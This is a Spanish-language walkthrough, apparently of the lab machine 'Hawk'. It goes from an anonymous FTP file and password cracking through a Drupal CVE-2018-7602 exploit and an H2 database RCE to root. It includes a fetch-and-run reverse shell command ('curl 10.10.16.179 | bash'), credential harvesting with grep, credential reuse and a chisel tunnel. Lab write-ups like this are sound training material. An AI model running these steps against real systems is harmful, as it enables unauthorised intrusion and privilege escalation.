# Hawk



- 21
Nos conectamos con sesión anónima
No vemos ningún contenido pero con
```bash
ls -la
```

vemos un archivo oculto **.drupal.txt.enc** lo que parece un archivo *encriptado* que podremos revertir con la una key
- Puede ser que lo podamos bruteforcear al ser pequeña, pero seguiremos investigando mientras




- Nos lo descargamos con
```bash
get .drupal.txt.enc
```

Aprovechamos para buscar qué es drupal



- 80
```bash
whatweb 10.129.95.193
```

http://10.129.95.193 [200 OK] Apache[2.4.29], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.95.193], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PasswordField[pass], Script[text/javascript], Title[Welcome to 192.168.56.103 | 192.168.56.103], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN]
- Vemos un *drupal*



- 8082
Parece que no funciona



- 5435 leo por google que pertenece a **H2 Database**



- Nos reporta nmap varios archivos expuestos
- */robots.txt*



Vemos varios archivos de instalación txt y directorios a los que no tenemos permisos para acceder en principio

- Qué es H2 database engine



Es una SQL database en **Java**

- 9092



Vemos lo que parece un binario y nmap reporta que es **XmlIpcRegSvc?**

- Vamos a intentar instalar *H2 console* para conectarnos a la base de datos de H2 expuesta en el 8082 -> http://www.h2database.com/html/download.html
- Para instalar vemos esta web -> https://o7planning.org/11895/install-h2-database-and-use-h2-console#1117110
- Parece que no nos deja acceder, nos lanza un
*Sorry, remote connections ('webAllowOthers') are disabled on this server*

- Buscamos exploits para *h2 database*

- Buscamos exploits para *Drupal 7*
https://github.com/rajaabdullahnasir/CVE-2018-7600-Remote-Code-Execution
- No parece ejecutar el RCE

- Vamos a enumerar recursos en el puerto 80 expuesto
```bash
gobuster dir -u http://10.129.95.193 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt 2>/dev/null
```



- No encontramos nada a priori vamos a seguir con el intento de desencriptar el mensaje oculto descargado del ftp
```bash
cat drupal.txt.enc | tr -d '\n'
```

Le quitamos los saltos de línea
```bash
cat drupal.txt.enc | tr -d '\n' | base64 -d > drupal.enc
```

Lo base64decodeamos y lo guardamos en un archivo
```bash
file drupal.enc
```

Vemos el tipo de archivo que es **openssl enc'd data with salted password**



- Este tipo viene de usar ssl para encryptar un archivo, por ejemplo
```bash
openssl aes-256-cbc -in scanNmap.txt -out file.crypted
```



Vemos que es el mismo tipo

- Podremos descifrarlo con
```bash
openssl aes-256-cbc -d -in file.crypted
```

Y poniendo nuestra contraseña en este caso "hola"

- Intentaremos bruteforcear la password. Vemos que si la contraseña al desencriptar no es correcta, el código de estado es 1 (fallido) por lo que ya tenemos un comprobador para montar un script en bash
- Usaremos una herramienta llamada openssl-bruteforce
https://github.com/HrushikeshK/openssl-bruteforce/tree/master
```bash
python2.7 brute.py /usr/share/wordlists/rockyou.txt ciphers.txt ../drupal.txt.enc
```

- ciphers.txt -> tipos de cifrado a usar, nos lo da el propio repo
Lo descifra para AES-256-CBC



**friends**
Daniel:PencilKeyboardScanner123

- Intentamos logearnos con las credenciales por el puerto 80 en el drupal, pero parece que el usuario *daniel* no existe.
- Si vamos a *http://10.129.95.193/user/password* encontramos un portal de recuperación de contraseña, donde leakea usuarios existentes, podríamos bruteforcear las respuestas para enumerar usuarios válidos

- Pruebo primero con admin y me dice que es un usuario válido



Sin embargo si el usuario no existe muestra:



- Intentamos logearnos con
admin:PencilKeyboardScanner123
Entramos



**admin:PencilKeyboardScanner123**

- Hay un buscador de usuarios, intentamos enumerar el mayor número posible ya que nos pide un input -> Escribimos @ que tienen todos los correos



No parece haber ninguno más a parte de admin y el mío de test

- Ahora que estamos logeados como admin intentaremos acceder a los archivos enumerados a los que no teníamos acceso previamente
- /admin -> Vemos muchas opciones

- Intentamos descargar algun exploit
Usamos la herramienta **drupwn** -> https://github.com/immunIT/drupwn/tree/master
La instalamos y realizamos un scan (es similar a wpscan)



- Encontramos un exploit de RCE una vez autenticado ->
https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py
Ejecutamos el exploit
```bash
python3 poc.py admin PencilKeyboardScanner123 http://10.129.95.193 -c "id"
```



- Nos lanzamos una revshell con
```bash
curl 10.10.16.179 | bash
```

www-data

- Hay otra forma de tirarnos la revshell en drupal
En *Modules* hay un módulo llamado **PHP Filter**



Que al activarlo nos permitirá seleccionar en un post que creemos el tipo de formato *php* para interpretarlo

- Creamos un nuevo artículo y le añadimos un código en php malicioso con el mismo
```bash
curl 10.10.16.179 | bash
```



## Escalada

```bash
hostname -I
```

-> ningún contenedor
Existe un usuario *Daniel* cuya shell es el binario **python3**
daniel:x:1002:1005::/home/daniel:/usr/bin/python3

- Vemos un proceso corrido por root del h2 expuesto



- Recordamos que nmap reportaba un *H2 database* en el puerto 8082
hacemos un
```bash
curl 127.0.0.1:8082
```



Nos devuelve contendio y ya no nos sale el error que nos reportaba si intentábamos acceder desde nuestro buscador



- Haremos un port forwarding, pasamos chisel a la máquina víctima
```bash
./chisel server --reverse -p 1234
```

En Kali
```bash
./chisel client 10.10.16.179:1234 R:8082:127.0.0.1:8082
```

en MV
Ahora podemos ver el contenido de H2 sin problema



Con las contraseñas que tenemos parece no funcionar, asique vamos a buscar credenciales válidas en */var/www/html* con
```bash
grep -r password | less -S
```



Encontramos unas posibles credenciales en *sites/default/settings.php*

- Encontramos lo que parecen unas credenciales de mysql



mysql:drupal4hawk

- No podemos conectarnos a sql a priori con estas credenciales por lo que intento reutilizarlas para concertarme al usuario daniel
```bash
su daniel
```



daniel:drupal4hawk
daniel

- Nos ejecuta el binario de *python3* que habíamos visto previamente en /etc/passwd por lo que intentaremos spawnear una shell
```bash
import os; os.system("/bin/bash")
```

SUID -> Nada
SUDO -l -> Nada

- Buscaremos por información de h2 en la máquina para ver si encontramos pistas para conectarnos
```bash
find / -iname \*h2\* 2>/dev/null
```

- /opt/h2 -> No tenemos acceso

- Hay una opción para habilitar que h2 nos deje conectarnos desde una máquina externa
*Preferences* -> *Allow connections from other computers*



- Descubrimos que para conectarnos, lo que hay que cambiar en la url el **/test** y poner cualquier cosa, funciona así h2...



- Estamos dentro



- Vamos a intentar buscar un exploit que nos permita RCE en la base de datos
https://github.com/ViperXSecurity/H2-Database-RCE/blob/main/ViperX_H2DB_RCE.py
Encontramos un exploit donde realiza una query en h2 con código java incrustado para ejecutar un comando en el sistema. Además como hemos visto antes, el proceso de h2 lo corre root, por lo que entendemos que estos comandos los ejecutará root



Adaptamos el comando a nuestro interés y vemos que si realizamos un ping nos llega a nuestra máquina





Tenemos RCE

- Damos permisos de SUID a la bash



Comprobamos desde la MV



root
